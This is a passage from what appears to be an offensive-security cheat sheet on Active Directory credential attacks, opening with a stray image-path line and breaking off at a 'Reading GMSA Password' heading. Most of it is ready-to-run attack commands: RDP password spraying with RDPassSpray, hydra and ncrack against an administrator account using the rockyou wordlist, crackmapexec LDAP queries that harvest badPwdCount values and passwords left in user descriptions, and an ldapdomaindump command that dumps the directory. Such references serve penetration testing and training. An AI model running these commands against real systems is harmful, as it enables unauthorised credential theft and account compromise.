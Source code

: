 
#### Spray passwords against the RDP service

* Using [RDPassSpray](https://github.com/xFreed0m/RDPassSpray) to target RDP services.
  ```powershell
  git clone https://github.com/xFreed0m/RDPassSpray
  python3 RDPassSpray.py -u [USERNAME] -p [PASSWORD] -d [DOMAIN] -t [TARGET IP]
  ```
* Using [hydra](https://github.com/vanhauser-thc/thc-hydra) and [ncrack](https://github.com/nmap/ncrack) to target RDP services.
  ```powershell
  hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://10.10.10.10
  ncrack –connection-limit 1 -vv --user administrator -P password-file.txt rdp://10.10.10.10
  ```

#### BadPwdCount attribute

> The number of times the user tried to log on to the account using an incorrect password. A value of 0 indicates that the value is unknown.

```powershell
$ crackmapexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 --users
LDAP        10.0.2.11       389    dc01       Guest      badpwdcount: 0 pwdLastSet: <never>
LDAP        10.0.2.11       389    dc01       krbtgt     badpwdcount: 0 pwdLastSet: <never>
```


### Password in AD User comment

```powershell
$ crackmapexec ldap domain.lab -u 'username' -p 'password' -M user-desc
$ crackmapexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 -M get-desc-users
GET-DESC... 10.0.2.11       389    dc01    [+] Found following users: 
GET-DESC... 10.0.2.11       389    dc01    User: Guest description: Built-in account for guest access to the computer/domain
GET-DESC... 10.0.2.11       389    dc01    User: krbtgt description: Key Distribution Center Service Account
```

There are 3-4 fields that seem to be common in most AD schemas: `UserPassword`, `UnixUserPassword`, `unicodePwd` and `msSFU30Password`.

```powershell
enum4linux | grep -i desc

Get-WmiObject -Class Win32_UserAccount -Filter "Domain='COMPANYDOMAIN' AND Disabled='False'" | Select Name, Domain, Status, LocalAccount, AccountType, Lockout, PasswordRequired,PasswordChangeable, Description, SID
```

or dump the Active Directory and `grep` the content.

```powershell
ldapdomaindump -u 'DOMAIN\john' -p MyP@ssW0rd 10.10.10.10 -o ~/Documents/AD_DUMP/
```

### Reading GMSA Password

